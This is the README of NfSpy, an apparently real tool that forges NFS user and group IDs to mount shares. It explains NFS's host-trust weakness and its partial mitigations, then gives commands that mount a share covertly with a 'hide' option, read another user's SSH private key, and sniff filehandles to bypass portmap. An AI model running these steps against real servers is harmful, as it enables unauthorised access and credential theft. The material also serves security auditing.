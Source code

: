 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a library/program that uses the Filesystem in Userspace (FUSE)
library to automate the falsification of NFS credentials when mounting an NFS
share. The 'twofour' branch is intended to support Python 2.4. It will not
receive future updates to functionality, so updating to Python 2.6 and the
master branch of NfSpy is encouraged.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured squash_root,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs_portmon

Another setting that can be enabled is nfs_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle.


BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.

* NfSpy is an NFSv2 client. NFSv2 is very old, and some servers may not
  support it. Future releases may support NFSv3, but probably not NFSv4.

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.
